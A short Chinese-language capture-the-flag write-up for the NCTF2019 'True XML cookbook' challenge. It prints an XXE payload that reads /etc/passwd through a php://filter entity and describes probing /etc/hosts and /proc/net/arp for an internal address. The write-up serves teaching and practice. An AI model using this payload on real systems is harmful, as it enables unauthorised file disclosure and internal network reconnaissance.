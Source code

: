 # [NCTF2019]True XML cookbook

## 知识点

`xxe`

`内网探测`

## 解题

一个登录框,提示`xml`,登录抓包尝试`xxe`

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<user><username>&a;</username><password>123</password></user>
```

发现回显`/etc/passwd`文件内容`base64`编码后的值,读`flag`没有该文件,读一下敏感文件找信息,在`/etc/hosts`没找到内网,在`arp`表`/proc/net/arp`中找到`ip`

![](./img/[NCTF2019]True XML cookbook-1.png)

![](./img/[NCTF2019]True XML cookbook-2.png)

![](./img/[NCTF2019]True XML cookbook-3.png)

